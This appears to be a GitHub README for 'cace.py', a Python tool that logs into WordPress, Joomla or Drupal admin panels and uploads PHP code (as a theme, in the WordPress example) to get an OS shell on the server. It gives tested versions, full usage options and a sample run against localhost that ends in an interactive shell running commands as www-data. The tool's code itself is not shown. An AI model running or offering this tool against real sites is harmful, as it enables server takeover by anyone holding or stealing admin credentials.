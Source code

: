 ##CMS Admin Command Execution

Trying to execute php code via admin panel.

Requirement:  
Python 2.7  
Python Requests lib (http://docs.python-requests.org/en/latest/)  
  
Tested on:  
Wordpress 4.1.1(latest); 3.9.3; 3.8; 3.7; 3.5; 3.4; 3.0; 2.7  
Joomla 3.4.1(latest); 2.5.28; 1.5.26  
Drupal 7.36(latest stable)  
```
usage: cace.py [-h] -c CMS -u URL -l LOGIN -p PWD  
  
CMS Admin Command Execution  
  
optional arguments:  
  -h, --help            show this help message and exit  
  -c CMS, --cms CMS     1 - Wordpress >= 2.7; 2 - Joomla; 3 - Drupal 7.*  
  -u URL, --url URL     Url to CMS folder, example http://1.2.3.4/blog/  
  -l LOGIN, --login LOGIN  
                        Administrator login  
  -p PWD, --pwd PWD     Administrator password  
```    
##Example:  
```   
test@ubuntu:~$ python cace.py -c 1 -u http://127.0.0.1/wp35/ -l admin -p admin  
[*] Trying to get upload form token for WP >= 3.9.  
[-] Failed to get token for WP >= 3.9.  
[*] Trying to get upload form token for WP <= 3.8.5.  
[*] Uploading php file as theme.  
[*] Trying to get os-shell.  
os-shell>id  
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
os-shell>uname -a  
Linux ubuntu 3.16.0-33-generic #44~14.04.1-Ubuntu SMP Fri Mar 13 10:33:29 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux  
os-shell>exit
